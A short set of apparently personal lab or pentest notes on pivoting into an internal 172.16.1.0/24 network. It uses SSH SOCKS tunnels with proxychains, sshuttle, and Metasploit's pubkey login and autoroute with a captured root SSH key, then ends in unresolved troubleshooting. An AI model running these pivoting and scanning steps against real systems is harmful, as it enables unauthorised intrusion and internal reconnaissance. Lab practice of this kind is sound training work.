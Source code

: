#### Pivoting

### method 1:

Add to proxychains.conf:
`socks4 127.0.0.1 9000`
`ssh -D 1080 -i 10.10.110.123/root_ssh root@NIX01` *1080 is redsocks proxy default*
`proxychains nmap -sV 172.16.1.0-254`

### Method 2:
*if I could nmap through this tunnel it would be the preffered method

`sshuttle -vr root@NIX01 172.16.1.1/24 --ssh-cmd "ssh -i 10.10.110.123/root_ssh"`

### Method 3:
msf > use auxiliary/scanner/ssh/ssh_login_pubkey
msf auxiliary(ssh_login_pubkey) > set RHOSTS 10.10.110.123  
msf auxiliary(ssh_login_pubkey) > set USERNAME root
msf auxiliary(ssh_login_pubkey) > set KEY_PATH 10.10.110.123/root_ssh
msf auxiliary(ssh_login_pubkey) > run

meterpreter > run post/multi/manage/autoroute
CTRL+Z
use auxiliary/scanner/portscan/tcp 
set RHOSTS 172.16.1.0/24

hhmmmmMMMM I must be doing something wrong I can curl some ip's I know are on the other side but cannot nmap or scan the range...
dd
